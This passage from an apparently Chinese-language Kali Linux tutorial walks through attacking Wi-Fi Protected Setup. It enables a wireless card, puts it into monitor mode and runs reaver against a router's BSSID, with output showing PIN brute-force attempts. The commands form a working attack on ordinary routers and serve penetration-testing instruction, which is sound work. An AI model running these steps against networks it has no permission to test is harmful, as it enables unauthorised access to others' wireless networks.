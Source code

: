 ```
```

从输出的信息中可以看到，只有一个以太网接口 eth0。这是因为无线网卡可能没有启动，首先来启动该无线网卡。执行命令如下所示：

```
root@Kali:~# ifconfig wlan0 up 
```

执行以上命令后，没有任何信息输出。此时再次执行 ifconfig 命令，查看无线网络是否已启动，如下所示：

```
root@Kali:~# ifconfig
......
wlan0  Link encap:Ethernet HWaddr 08:10:76:49:c3:cd
       UP BROADCAST MULTICAST MTU:1500 Metric:1
       RX packets:0 errors:0 dropped:0 overruns:0 frame:0
       TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
       collisions:0 txqueuelen:1000
       RX bytes:0 (0.0 B) TX bytes:0 (0.0 B) 
```

看到以上输出信息，则表示无线网卡已成功启动，其网络接口为 wlan0。

（2）启动无线网卡为监听模式。执行命令如下所示：

![291-01](img/00446.jpg)

从输出的信息中，可以看到 monitor mode enabled on mon0，表示无线网卡已启动监听模式。在以上信息中，还可以看到无线网卡的芯片级驱动类型。其中，该网卡的芯片为 Ralink，默认驱动为 rt2800usb。

![291-02](img/00447.jpg)注意：执行以上命令启动监听模式，一定要确定正确识别无线网卡的芯片和驱动。否则，该无线网卡可能导致攻击失败。

（3）攻击 WPS。执行命令如下所示：

```
root@kali:~# reaver -i mon0 -b 14:E6:E4:AC:FB:20 -vv
Reaver v1.4 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@ tacnetsol.com>
[+] Waiting for beacon from 14:E6:E4:AC:FB:20
[+] Switching mon0 to channel 1
[+] Switching mon0 to channel 2
[+] Switching mon0 to channel 3
[+] Switching mon0 to channel 11
[+] Switching mon0 to channel 4
[+] Switching mon0 to channel 5
[+] Switching mon0 to channel 6
[+] Switching mon0 to channel 7
[+] Associated with 8C:21:0A:44:09:F8 (ESSID: yztxty)
[+] Trying pin 12345670
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
```